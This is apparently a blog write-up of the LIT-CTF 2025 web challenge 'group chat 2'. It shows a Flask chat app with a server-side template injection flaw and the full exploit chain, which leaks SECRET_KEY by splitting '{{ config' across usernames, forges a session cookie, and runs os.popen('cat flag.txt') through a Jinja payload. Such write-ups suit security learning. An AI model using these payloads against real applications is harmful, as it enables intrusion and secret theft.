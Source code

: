 ```yaml
---
title: "LIT-CTF 2025 WriteUp"
description: "Some solutions of remarkable challenges from LIT-CTF"
pubDate: "Aug 27 2025"
heroImage: "/LIT_logo.png"
---
```


The LIT-CTF 2025 competition featured a diverse set of challenges spanning multiple categories, including web exploitation, cryptography, reverse engineering, and forensics. Each task was carefully designed to test not only technical proficiency but also creativity and problem-solving under pressure.

# 1) Web challenge:     web/group chat 2 |  49 solves / 198 points

In this challenge we are given a "main.py" file that we can run it on our local machine. And we examine the source code:

from flask import Flask, render_template, render_template_string, request, session, redirect, url_for
from flask_socketio import SocketIO, send
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(24)
socketio = SocketIO(app)

chat_logs = []  # Store chat messages in memory

@app.route('/')
def index():
    if 'username' not in session:
        return redirect(url_for('set_username'))
    html = '''
...
<div id="chat-box">''' + '<br>'.join(chat_logs) + '''
</div>
...
'''
    return render_template_string(html)

@app.route('/set_username', methods=['GET', 'POST'])
def set_username():
    if request.method == 'POST':
        if len(request.form['username']) > 14:
            return redirect(url_for('set_username'))
        if request.form['username'].count('{') and request.form['username'].count('}'):
            return redirect(url_for('set_username'))
        session['username'] = request.form['username']
        return redirect(url_for('index'))
    html = '''
... (HTML omitted) ...
'''
    return render_template_string(html)

@app.route('/send_message', methods=['POST'])
def send_message():
    if 'username' not in session:
        return redirect(url_for('set_username'))
    msg = request.form['message']
    username = session.get('username', 'Guest')
    if not msg.isalnum():
        return redirect(url_for('index'))
    chat_message = username + ': ' + msg
    chat_logs.append(chat_message)
    return redirect(url_for('index'))

if __name__ == '__main__':
    socketio.run(app, debug=False)




## The application is vulnerable because it uses render_template_string with untrusted user input. Chat messages are concatenated into an HTML string and then passed to Jinja2, which interprets any template syntax like {{ ... }}.


# Solution Overview (Group Chat 2 — SSTI → Secret leak → Forged session)

Goal: Exploit SSTI in the chat, leak Flask SECRET_KEY, forge a signed session cookie with a malicious username, and read flag.txt.

1) Establish session & helper wrappers

Uses a single requests.Session() to persist cookies.

send_as_user(u, m) sets a username and posts a message.

get_result() scrapes the chat box HTML to read server-rendered output (Jinja-rendered).

2) Leak the SECRET_KEY via SSTI
send_as_user('{{ config ~ "', 'a')
send_as_user('" }}', 'b')
SECRET_KEY = eval(get_result().split("SECRET_KEY': ")[1].split(", 'SECRET")[0])


Two usernames stitch together {{ config }} inside the template (bypassing the naive brace check).

The page renders config (Flask config dict), which includes SECRET_KEY.

Simple string parsing extracts the 24-byte key (checked by assert len(SECRET_KEY) == 24).

3) Forge a malicious session cookie
payload = "{{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}"
forged_cookie = session.sign({'username': payload}, secret=SECRET_KEY)


With the real SECRET_KEY, flask_unsign.session.sign() generates a valid Flask session cookie.

The session’s username holds a Jinja payload that executes cat flag.txt via os.popen(...).

4) Trigger render & exfiltrate the flag
requests.post(f"{URL}/send_message", cookies={"session": forged_cookie}, data={"message": "END"})
print(get_result().split("<br>")[-1].split(": END")[0].replace("\\n", "\n"))


Posting with the forged cookie makes the server render the malicious username.

Jinja evaluates the payload server-side; the flag contents appear in the chat and are parsed out.
